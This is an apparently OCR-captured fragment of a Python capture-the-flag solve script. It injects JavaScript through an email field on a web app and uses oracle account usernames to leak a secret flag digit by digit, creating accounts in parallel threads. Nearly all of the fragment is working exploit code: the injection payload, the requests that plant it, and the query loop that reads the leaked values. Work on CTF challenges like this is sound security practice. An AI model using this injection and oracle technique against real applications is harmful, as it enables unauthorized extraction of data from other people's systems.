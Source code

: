 ``` py
    }
    return this.username == "account_oracle_" +  (this.flag.charCodeAt(INDEX) - 27) % 10
  }
  """.replace("\n", "").replace('INDEX', str(index)).replace("SWITCH_EMAIL", switch_email).replace("account_oracle_", account_oracle)

  payload = 'anything@anything.com" || (() => {JS})() || "'.replace('JS', js_code)

  session = requests.session()

  data = stored_session[index]
  session = data["session"]
  name = data["name"]

  # we only need to update the payload for first round
  if round == 1:
    session.post(EDIT_URL, data={
      "email": payload.replace("condition", "condition"+str(random.randint(0,999999)))
    })
    req_count += 1

  # for second round we don't need to update email
  resp = requests.get(QUERY_URL + name)
  req_count += 1

  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)
    return '#'

  if resp.text == 'null':
    print('Failed')
    return '#'

  data = json.loads(resp.text)
  num = data["username"].replace(account_oracle, '')

  return num

start = time.time()

# create an account for our state
session = requests.session()
account_test_123 = "account_test_123" + str(random.randint(0,999999))
session.post(LOGIN_URL, data={
  "username": account_test_123,
  "password": account_test_123,
})
req_count += 1

print("create oracle account...")
total = len(charset)
current = 0
with concurrent.futures.ThreadPoolExecutor(max_workers=FLAG_LENGTH) as executor:
    futures = {executor.submit(create_oracle, i): i for i in range(total)}
    for future in concurrent.futures.as_completed(futures):
        current += 1
        if current % 10 == 0 or current == total:
          print(f"Progress: {current}/{total}")

print("leaking flag first round")

length = FLAG_LENGTH
```
